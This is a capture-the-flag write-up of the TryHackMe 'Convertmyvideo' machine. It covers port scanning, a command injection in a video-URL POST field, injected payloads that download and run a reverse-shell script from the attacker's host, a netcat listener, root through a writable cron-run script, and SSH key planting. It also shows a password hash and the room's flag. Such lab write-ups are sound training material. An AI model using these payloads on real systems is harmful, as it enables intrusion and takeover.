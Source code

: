 ```yaml
---
layout: post
title:  "[THM] Convertmyvideo"
date:   2021-05-27 2:18:00 +0200
last_modified_at: 2021-05-14 07:21:29 +0200
toc:  true
tags: [ctf, linux, Tryhackme, Writeup, cron, ssh, command_injection, bonus]
categories: Tryhackme
---
```


It is a linux machine that allows us to exploit a vulnerability found in the OWASP Top 10 (2017).

---

## Enumeration
### Nmap
*Ports:*
* 22/tcp --> OpenSSH 7.6p1
* 80/tcp --> Apache httpd 2.4.29


```bash
nmap -p- --min-rate 5000 10.10.145.178 -oG Allport             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:01 EDT
Stats: 0:01:04 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 22.33% done; ETC: 20:06 (0:03:46 remaining)
Stats: 0:01:07 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 23.09% done; ETC: 20:06 (0:03:43 remaining)
Stats: 0:01:39 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 32.92% done; ETC: 20:06 (0:03:24 remaining)
Warning: 10.10.145.178 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.145.178
Host is up (0.036s latency).
Not shown: 41212 filtered ports, 24321 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 266.37 seconds
```
*More exhaustive scanning:*
```sql 
nmap -sC -sV -Pn -p22,80 10.10.145.178 -oN Scan_Port     
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 20:09 EDT
Nmap scan report for 10.10.145.178
Host is up (0.14s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.92 seconds
```


### Fuzzer

After fuzzing I came across a directory which is admin:

![](/images_blog/img_convertmyvideo/Pastedimage20210416201737.png)
![Pastedimage20210416201737](https://user-images.githubusercontent.com/76759292/127757710-64e265d5-b99f-4397-9f32-b29238611ffc.png)


## PoC Command Injection

After a while of testing I found a command injection in the part where the url is inserted

```bash
POST / HTTP/1.1
Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/


yt_url=|whoami;
```

![](/images_blog/img_convertmyvideo/Pastedimage20210416210230.png)
![Pastedimage20210416210230](https://user-images.githubusercontent.com/76759292/127757723-4dc3ddf8-2de9-4564-bee5-97ab61d011b3.png)


We can also visualize the flag from here (For the spacing I use Input Field Separators which is an input field separator variable):  
  

![](/images_blog/img_convertmyvideo/Pastedimage20210416211813.png)
![Pastedimage20210416211813](https://user-images.githubusercontent.com/76759292/127757727-fc4e3dd1-fd78-45e3-b4d8-106c00b23e09.png)

We can visualize the content that admin has:
![](/images_blog/img_convertmyvideo/Pastedimage20210416211957.png)
![Pastedimage20210416211957](https://user-images.githubusercontent.com/76759292/127757731-3a285cca-4e6f-474d-89e3-6e62d08a27d2.png)

Something that is striking is the content that has .htpasswd

![](/images_blog/img_convertmyvideo/Pastedimage20210416212308.png)
![Pastedimage20210416212308](https://user-images.githubusercontent.com/76759292/127757745-e60616cb-5985-48c0-b63c-f9c6d51b228a.png)


```
"output":"itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y\/\n"
```

With this we will be able to crack ```jesie``` and later to enter in the panel that appears when we enter to /admin. This time we will go for another vector.

## Shell Initial

First we will do a simple reverse with bash and then we will set up a server with python:

```bash
POST / HTTP/1.1

Host: 10.10.43.37
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 42
Origin: http://10.10.43.37
Connection: close
Referer: http://10.10.43.37/

yt_url=|wget${IFS}10.9.206.201:8000/rev.sh;
```

Then we run the reverse:

```
POST / HTTP/1.1
Host: 10.10.145.178
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 25
Origin: http://10.10.145.178
Connection: close
Referer: http://10.10.145.178/

yt_url=|bash${IFS}rev.sh;
```


![](/images_blog/img_convertmyvideo/Pastedimage20210416213538.png)
![Pastedimage20210416213538](https://user-images.githubusercontent.com/76759292/127757751-7f9e8d86-b68b-47a8-8ddd-3a204c9e9554.png)


```sql
rlwrap nc -lvnp 443                                  
listening on [any] 443 ...
connect to [10.9.206.201] from (UNKNOWN) [10.10.145.178] 42824
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

## PrivEsc

The first utility to use is ```linpeas``` this shows us the same thing we got out with the command injection:

```
Reading /var/www/html/admin/.htpasswd                                        
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```


An interesting script is clean.sh, the idea is basically to add a reverse and wait for it to be executed:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174646.png)
![Pastedimage20210521174646](https://user-images.githubusercontent.com/76759292/127757755-383cfbca-aa66-43e0-a23b-57a135cc6f93.png)


This image confirms my theory that this script is basically executed by root through a cron job:

![](/images_blog/img_convertmyvideo/Pastedimage20210521174719.png)
![Pastedimage20210521174719](https://user-images.githubusercontent.com/76759292/127757762-889d4ecd-dce2-4c25-82d0-63334389a4ac.png)


```bash
cat root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
root@dmv:~# 
```

MACHINE PWNED!!!!!

## Extra 

This does not go with the resolution of the machine but I find interesting the issue of local port forwarding that allows us to visualize services that can only be seen in the machine locally (This is not the case but assuming that we find ourselves later with this).

First we generate a pair of keys with ssh-keygen:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180334.png)
![Pastedimage20210521180334](https://user-images.githubusercontent.com/76759292/127757767-6490e00f-bc47-4c89-a208-7a4badd90d52.png)


We add our key to the authorized_keys:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180445.png)
![Pastedimage20210521180445](https://user-images.githubusercontent.com/76759292/127757768-6ceedccb-bf53-4e71-bcb9-77b6513f795c.png)


We test that everything is correct:
![](/images_blog/img_convertmyvideo/Pastedimage20210521180621.png)
![Pastedimage20210521180621](https://user-images.githubusercontent.com/76759292/127757769-49ef382b-cbd0-403f-b77b-e34d1beb161c.png)


With the following command we are telling it that we want port 80 of the victim machine to be mirrored on port 8084 of our machine:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181139.png)
![Pastedimage20210521181139](https://user-images.githubusercontent.com/76759292/127757771-a48a1471-51f3-4c4c-88bc-9d0e4e66cfbc.png)


This is how we could visualize it:
![](/images_blog/img_convertmyvideo/Pastedimage20210521181155.png)
![Pastedimage20210521181155](https://user-images.githubusercontent.com/76759292/127757779-2cb3c5c9-5c6f-4230-95ee-3e66f5b4249d.png)


On this machine we were able to exploit a command injection and subsequently abuse a cron job.

<p align="center">
<img src="https://tenor.com/view/typing-petty-fast-cloudy-with-a-chance-of-meatballs-flint-lockwood-gif-4907824.gif" width="300" height="300" />
</p>
